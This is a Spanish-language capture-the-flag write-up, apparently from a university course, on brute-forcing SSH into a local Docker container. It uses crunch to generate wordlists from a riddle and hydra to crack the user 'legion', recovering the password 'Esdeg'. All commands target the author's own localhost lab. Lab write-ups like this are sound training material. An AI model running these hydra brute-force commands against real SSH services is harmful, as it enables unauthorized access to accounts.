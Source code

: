 # Creando CTF's

# Reto CTF: Ubuntu con SSH y Usuario 'Legion'

## Objetivo
Acceder vía SSH a un contenedor Docker con usuario `legion`, cuya contraseña debe ser descubierta a través de fuerza bruta basada en un acertijo. Se utilizaron herramientas como `crunch` e `hydra` para automatizar el proceso.

---

##  Paso 1. Preparación del entorno

### Se Descargo la imagen del contenedor
```bash
docker pull jaiderospina/retoctf:1.0
```

Luego se ejecuto el contenedor en segundo plano

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```

Se solucionó el conflicto de nombre

```bash
docker rm -f mi-contenedor-ssh
```

##  Paso 2. Verificación del contenedor

```bash
docker ps
```

Confirmó contenedor activo y SSH escuchando en puerto 2222.

##  Paso 3. Análisis del acertijo

Cinco letras ocultas en las palabras estrella, selva, dedo, gato;
Pista: podria existir relacion con las iniciales.
Analisis: siguiendo las instrucciones del acertijo y analizando el contexto se llego a una hipotesis.
Hipótesis principal: la combinacion tiene que ver con la sigla ESDEG,esdeg, o con alguna variante si depronto habia una trampa, como esdeo, o esdog, etc.

##  Paso 4. Generación de diccionarios con Crunch

Se genero este diccionario

```bash
crunch 5 5 -t ES%%O -o esdeo.lst
```

En este punto se generaron varias listas, ya que en el primer intento la ista no alcanzo a abarcar la combinacion correcta.

#  Lista reducida: 

```bash
crunch 5 5 estdgo -o reducido.lst
Lista ampliada:
```

# Lista ampliada:

```bash
crunch 5 5 estdogal -o ampliada.lst
```

# Lista completa (opcional):
```bash
crunch 5 5 abcdefghijklmnopqrstuvwxyz -o full.lst
```

##  Paso 5. Ataques con Hydra

Comando base usado:
```bash
hydra -t 4 -l legion -P [archivo] -s 2222 localhost ssh
```

# Diccionarios probados:

esdeo.lst ❌

reducido.lst ❌

ampliada.lst ❌


##  Paso 6. Verificación manual de servicio SSH

Al no tener resultado fructifero, se procede a una verificacion manual, tratando de adivinar la clave. 

```bash
ssh legion@localhost -p 2222
```

Confirmado: SSH activo y pidiendo contraseña.

se probaron las 2 claves mas probables. ESDEG y esdeg. pero el acceso fue denegado.


##  Paso 7. Ataque exitoso con combinaciones personalizadas

Se elabora un wordlist, en donde se le pide a crunch que pruebe combinaciones posibles con estas dos palabras y que intente revolviendo mayusculas y minusculas.

# Crear wordlist:

```bash
echo -e "esdeg\nESDEG\nEsdeg\neSdeg\nesDEG\neSdEg\nEsDEg\nESDeg\nesDEg\nEsdEg" > combinadas.lst
```

luego ejecutamos hydra

# Ejecutar Hydra:

```bash
hydra -l legion -P combinadas.lst -s 2222 localhost ssh
```

# Resultado: BANG!!!

¡[BANG]()

css

[22][ssh] host: localhost login: legion password: Esdeg
##  Paso 8. Acceso SSH exitoso


ssh legion@localhost -p 2222
# Contraseña: Esdeg


##  Paso 9. Búsqueda de bandera
Comandos usados:


ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /etc/motd
grep -r "CTF{" /home 2>/dev/null
❌ No se encontró bandera explícita en el contenedor.

🧠 Lecciones aprendidas
Uso táctico de crunch para generar diccionarios.

Dominio de hydra con control de tareas (-t).

Verificación previa de puertos y servicio SSH.

Importancia de considerar variantes en uso de mayúsculas.

Documentación detallada del proceso paso a paso.

Contraseña final encontrada: Esdeg
Usuario: legion
Puerto: 2222

📁 Autor: [grupo 4 - ]
📅 Fecha: Julio 2025
🎓 Proyecto académico – Electiva Habilidades Prácticas CTF



---
